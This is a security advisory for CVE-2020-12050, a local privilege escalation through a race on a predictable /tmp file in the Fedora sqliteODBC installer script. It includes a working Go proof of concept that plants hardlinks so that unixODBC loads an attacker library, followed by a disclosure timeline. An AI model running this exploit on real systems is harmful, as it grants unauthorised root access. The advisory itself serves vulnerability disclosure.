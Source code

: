# [CVE-2020-12050] Privilege escaltion through a race condition in the sqliteODBC installer script

## Description

A vulnerability has been introduced in the package that installs sqliteODBC in Red Hat / CentOS / Fedora distributions.

**Threat** 

Privilege escalation to root

## Vulnerability records

**CVE ID**: CVE-2020-12050

**Access Vector**: local

**Security Risk**: low

**Vulnerability**: CWE-377

**CVSS Base Score**: 4.5

**CVSS Vector**: CVSS:3.0/AV:L/AC:H/PR:L/UI:N/S:U/C:L/I:L/A:L



## Details

The sqliteODBC package install script saves a part of his configuration file in the `/tmp` folder, before running the `odbcinstall` script on it:

```
if [ -x /usr/bin/odbcinst ] ; then
	INST=/tmp/sqliteodbcinst$$

	if [ -r /usr/lib64/libsqliteodbc.so ] ; then
		cat > $INST <<- 'EOD'
			[SQLITE]
			Description=SQLite ODBC 2.X
			Driver=/usr/lib64/libsqliteodbc.so
			Setup=/usr/lib64/libsqliteodbc.so
			Threading=2
			FileUsage=1
		EOD

		/usr/bin/odbcinst -q -d -n SQLITE | grep '^\[SQLITE\]' >/dev/null || {
			/usr/bin/odbcinst -i -d -n SQLITE -f $INST || true
		}

```

The temporary configuration file is saved during the installation using the following name `/tmp/sqliteodbc$$` (where $$ is the PID of the process).

As the configuration file is using a predictable name, we can try to perform a race in order to write new contents before the file is loaded by `odbcinstall`.

The PID of a process is incremental, so we just have to pre-create a bunch of *hardlinks* in the `/tmp` directory that target our payload.

## Proof of Concept

We created the following Golang exploit code, that works nearly all the time during the installation of sqliteodbc:

```go
package main

import (
	"fmt"
	"os"
)

func SpreadHardlinks(pid int) {
	maxPid := pid + 100
	fmt.Println("[+] Creating hardlinks...")
	for pid++ ; pid < maxPid; pid++ {
		target := fmt.Sprintf("/tmp/sqliteodbcinst%d", pid)
		err := os.Link("/tmp/race.ini", target)
		if err != nil {
			panic(err)
		}
		fmt.Printf("[~] Created hardlink : %s\n", target)
	}
}

func main(){
	const poc = `
[default]
Description=XYZ ODBC
Driver=/tmp/poc.so
Driver64=/tmp/poc.so
Setup=/tmp/poc.so
Setup64=/tmp/poc.so
Threading=2
FileUsage=1
`
	pid := os.Getpid()
	fmt.Printf("[~] Current pid : %d\n", pid)

	fmt.Println("[+] Attempting to win the race, watch for changes in /etc/odbcinstall.conf !")

	f, err := os.OpenFile("/tmp/race.ini", os.O_CREATE | os.O_RDWR, 0700)
	if err != nil {
		panic(err)
	}
	SpreadHardlinks(pid)

	for {
		f.Seek(0, 0)
		f.WriteString(poc)
		f.Sync()
	}

	f.Close()
}
```

That way, every time a program tries to use unixODBC, the `/tmp/poc.so` library will be loaded, enabling privilege escalation to the attacker.


## Affected versions

* Tested on sqliteodbc-0.9996-4.fc31.x86_64.rpm

## Solution

?


## Timeline (dd/mm/yyyy)

* 2020-03-12 Initial discovery.
* 2020-03-24 Contacting Red Hat security team (secalert@redhad.com).
* 2020-03-25 Red Hat acknowledgement stating that the report is under review.
* 2020-04-16 Follow-up e-mail as we don't get any more news.
* 2020-04-16 Automatic reply from Red Hat.
* 2020-04-20 No news, so we open a bug report on the Fedora side.
* 2020-04-21 Notifying secalert@redhad.com of the Fedora bug report.
* 2020-04-21 After having some hard time explaining the vulnerability, it's acknowledged on the Fedora side.
* 2020-04-22 First patches are submitted to the Fedora testing repositories.
* 2020-04-30 Patches are available to the main Fedora repos.

All in one, our experience with reporting bugs has been surprisingly poor.

The official reporting channel, secalert@redhad.com, never replied to us. We presume that our report was not reviewed properly, as no question or feedback has been provided to us.

Damian Wrobel, the Fedora maintainer, deserves credits: he did his best to understand the issue, was quick to answer and push patches.

However, we think that this is not how security alerts should be dealt with.

The official CERT/SoC should:

* analyze and qualify security vulnerabilities ;
* react quickly and provide clear and understandable feedback, whether a report is accepted or rejected ;
* enable to report security vulnerabilities confidentially (better than public bug reports) ;
* coordinate mitigation and patches between all Red Hat derivatives.

## Credits

* Nicolas Chatelain, TNP Consultants (nicolas.chatelain -at- tnpconsultants -dot- com)

